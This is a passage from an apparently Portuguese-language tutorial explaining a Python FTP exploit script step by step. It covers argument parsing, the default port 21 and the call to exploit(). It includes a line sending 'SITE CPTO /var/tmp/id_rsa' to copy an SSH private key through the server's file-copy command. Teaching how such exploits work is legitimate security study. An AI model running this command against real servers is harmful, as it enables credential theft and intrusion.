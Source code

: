 ```python
client.send(b"SITE CPTO /var/tmp/id_rsa\r\n")
ans = client.recv(1024).decode()
```
E mais uma vez printaremos a resposta do servidor:

```python
print(ans)
```
Após isso, apenas informamos que a execução ocorreu com sucesso.

### def main()
Começamos criando o parser para fazer o parsing dos parâmetros que serão passafos para o nosso exploit:

```python
parser = argparse.ArgumentParser()
    parser.add_argument("-t", "--target", help="IP target")
    parser.add_argument("-p", "--port", help="Port target")
```
Nosso exploit terá dois parâmetros: `-t/--target` e `-p/--port`, um específica o IP alvo e o outro a porta na qual o FTP está executando no servidor. Geralmente é 21.

Após isso, pegarmos os argumentos passados:

```python
args = parser.parse_args()
```
E, para evitamos erros, adicionamos uma checagem para saber se o alvo foi especificado, caso não, o exploit avisa e encerra a execução:

```python
    if not args.target:
        print("[ERROR] Specify the target")
        return
```

O alvo sendo especificado, entramos no bloco else, e já entramos em mais uma checagem. Mas, desta vez é para saber se uma porta foi especificada, caso não, a porta padrão (21) será usada. E então chamarmos a função `exploit()` explorando a vulnerabilidade:

```python
    else:
        if args.port:
            target = args.target
            port = args.port

            exploit(target, port)

        else:
            target = args.target
            port = 21
            exploit(target, port)
```
Agora, fazemos mais uma checagem:

```python
if __name__ == "__main__":
    main()
```
Se o exploit for o módulo principal, executarmos ele.
